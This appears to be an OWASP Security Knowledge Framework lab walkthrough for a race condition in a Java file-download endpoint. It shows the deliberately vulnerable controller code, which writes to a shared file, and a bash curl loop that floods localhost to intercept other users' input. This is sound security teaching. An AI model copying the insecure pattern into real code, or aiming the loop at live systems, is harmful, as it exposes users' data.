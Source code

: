 # Race Condition File-Write

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-racecondition-file-write
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-race-condition-file-write
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step1

We can download a file from the server by doing a GET request to the server.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition-file-write/1.png)

Let's try:

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition-file-write/2.png)

Once we download the file we can see whatever we add to the URL is being written in a file called shared-file.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition-file-write/3.png)

#### Step 2

As the application suggests, there is a Race condition vulnerability in this app, let's try to find it.

If we look at the code we see that the application gets the query parameter, writes to a file called shared-file.txt, then opens the file and send it back as a response.

```java
public class RaceConditionController {
  @GetMapping("/{value}")
  public ResponseEntity<Object> downloadFile(@PathVariable String value, Model model) throws IOException {
    FileWriter fileWriter = new FileWriter("shared-file.txt", false);
    fileWriter.write(value);
    fileWriter.close();
    File file = new File("shared-file.txt");
    InputStreamResource resource = new InputStreamResource(new FileInputStream(file));
    HttpHeaders headers = new HttpHeaders();
    headers.add("Content-Disposition", String.format("attachment; filename=\"%s\"", file.getName()));
    headers.add("Cache-Control", "no-cache, no-store, must-revalidate");
    headers.add("Pragma", "no-cache");
    headers.add("Expires", "0");
    ResponseEntity<Object> responseEntity = ResponseEntity.ok().headers(headers).contentLength(file.length())
        .contentType(
            MediaType.parseMediaType("application/txt"))
        .body(resource);

    return responseEntity;
  }
}
```

#### Step 3

How can we exploit this?

We have a very small window between the writing of the file:

```java
InputStreamResource resource = new InputStreamResource(new FileInputStream(file));
```

and the response:

```java
HttpHeaders headers = new HttpHeaders();
headers.add("Content-Disposition", String.format("attachment; filename=\"%s\"", file.getName()));
headers.add("Cache-Control", "no-cache, no-store, must-revalidate");
headers.add("Pragma", "no-cache");
headers.add("Expires", "0");
ResponseEntity<Object> responseEntity = ResponseEntity.ok().headers(headers).contentLength(file.length())
    .contentType(MediaType.parseMediaType("application/txt"))
    .body(resource);
return responseEntity;
```

Maybe if we have multiple users on this application at the same time we might be able to intercept someone else's query.

## Exploitation

In order to do that we must send requests with high frequency.

Doing it manually is practically impossible, so we create a script that does that for us:

```sh

#!/bin/bash

while true; do

	curl -i -s -k  -X $'GET' -H $'Host: localhost:5000' $'http://localhost:5000/111' | grep "111"

done

```

and in the meantime we will send a couple requests from Burp:

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition-file-write/4.png)

If we look in the logs we will see:

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition-file-write/5.png)

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition-file-write/6.png)

## Additional sources

https://wiki.owasp.org/index.php/Testing_for_Race_Conditions_(OWASP-AT-010)
